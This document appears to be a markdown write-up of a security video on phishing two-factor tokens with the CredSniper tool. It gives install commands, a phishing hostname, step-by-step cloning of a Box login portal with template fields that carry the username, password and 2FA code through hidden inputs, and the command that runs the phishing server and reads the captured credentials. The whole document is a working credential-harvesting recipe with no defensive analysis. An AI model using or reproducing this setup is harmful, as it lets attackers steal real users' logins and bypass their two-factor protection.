



Phishing 2FA Tokens with CredSniper - Tradecraft Security Weekly - #25

https://github.com/ustayready/CredSniper
# Overview
- More orgs are implementing 2FA
- Need a method to capture 2FA tokens
- Need rapid method to clone auth portals
- CredSniper to save the day.

# Install
```
# git clone https://github.com/ustayready/CredSniper
# cd CredSniper
# ./install.sh
gmail
https://box.com/
Y
Y
tsw.poppingboxes.org (the hostname for certs and our phishing domain)
port 443
```
will start building.
Go to login portal that we want to clone.
Copy the html
save to text file
add templating to direct to "{{ next_url }} " on index.html page
```
<div class="main-body is-narrow">  <form id="login-form" name="login-form" method="POST" action="{{ next_url }}"><div class="login-container"><h1>Sign In to Your Account</h1> etc.....
```


add templating for username on password.html page
```
<span class="login-preview">Signing in as {{ username }}.</span>
<a href="/login?redirect_url=%2F" title=....etc
<input type="text" name="username" value="{{ username }}" id="username" class="hidden" autocomplete="username">
```


add templating to twofa.html
```
<div class="login-container"><form method blah blah {{ next_url }} "><h1 class="login-heading">Using a new device?etc....

<input type="hidden" id="password" name="password" value="{{ password }}">
<input type="hidden" id="username" value="{{ username }}">
```

creds captured in .cache file

Box DEMO
```
# mkdir box
# cd box
# cp -R ../example/*
# ls -la
# mv example.py box.py
# ls -la templates/
# ....create login.html password.html twofactor.html
# cd ..
# cd ..
# source bin/activate
# python3 credsniper.py
# python3 credsniper.py --module box --two-factor --port 443 --ssl --final https://box.com --hostname tsw.poppingboxes.org
# cat .sniped


